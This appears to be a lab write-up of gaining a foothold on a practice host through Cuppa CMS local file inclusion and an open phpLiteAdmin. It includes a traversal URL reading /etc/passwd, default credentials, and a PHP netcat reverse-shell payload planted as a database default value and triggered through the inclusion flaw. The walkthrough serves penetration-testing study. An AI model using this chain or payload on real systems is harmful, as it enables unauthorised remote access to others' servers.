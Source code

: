 Getting a Foothold

Getting a Foothold

# Works
1. Run NMAP scans to find open ports

2. Run dirb. Found 2 interesting directories: /administrator and /db

3. View the login page for Cuppa CMS

4. Find default credentials for Cuppa CMS (admin:admin). They work! Creds for the cuppa db is found there

5. View the login page for phpLiteAdmin. Didn't need any password! Creds for several users is found there.

6. Run Nikto scan. It specifies that /administrator and /db are interesting.

7. Try the Cuppa CMS LFI/RFI exploit on the target. It works for directory traversal!
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`
![949042314ae4b1bf7524940b0b4971bc.png](../../_resources/bae7dd2683bf4ccb9129cb54a943ec1a.png)

8. Attempt RFI by using the phpLiteAmin exploit 24044.txt

9. In phpLiteAdmin, create a new database named hack.sqlite
![68ca9ee88d952ef89ffb569e85b91644.png](../../_resources/201b13880fab438fa45c0bf354991879.png)

10. Rename hack.sqlite to hack.php
![ef6a3de0fed43f1f6569f20080780149.png](../../_resources/7229bccd84094cb099fef3942e3ae6c8.png)

11. Add a new table to hack.php. This example named it 'hacktable' and input number of fields = 1
![914b732f5b8b02914cfa98eed5ccd7e4.png](../../_resources/72f5a4db054a4c5faa1a798f3d4462a1.png)

12. Add a new field. This example named it 'hackfield', type 'TEXT', and Default Value is a php command for a reverse shell. The following php code uses netcat client to connect to our kali attack machine on port 1937:

`<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.214 1937 >/tmp/f") ?>`

Verify that table 'hacktable' has been created
![a81cc16caaf862dbd02aae6dfef481d2.png](../../_resources/52bd373f96e44afba3cb49a96655a51a.png)

Close-up view of the php code
![86703d1ec41ffe13d3a146539f996818.png](../../_resources/639418bf8d484519bfcd326edbe58af0.png)

13. Verify the path where the injected php code is stored. This is the LFI. The path to this code is:
### /usr/local/databases/hack.php
![7e1e832b6a0df2f5c25e0fa5c806e19b.png](../../_resources/1d086cf2e5f94951ac3827bf2f989bf5.png)

14. Open a netcat listener on port 1937
`nc -lvnp 1937`
![2a5ddfce2844270caf7b1a1e1e2581c0.png](../../_resources/8ede21e0cdc44290bebf6597f4e17604.png)

15. Browse to our code by utilizing the previous Cuppa CMS exploit.
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/databases/hack.php`
![0bdc65fc5cb04483a0432818de046a0d.png](../../_resources/a15ac7f5175f4fbb96225aad3b920567.png)

16. Notice we now have a reverse shell
![cb994df4fe8482b8a61f531e18fe5ec7.png](../../_resources/3b91b601f5644970a5beefe6f0bbdfc9.png)
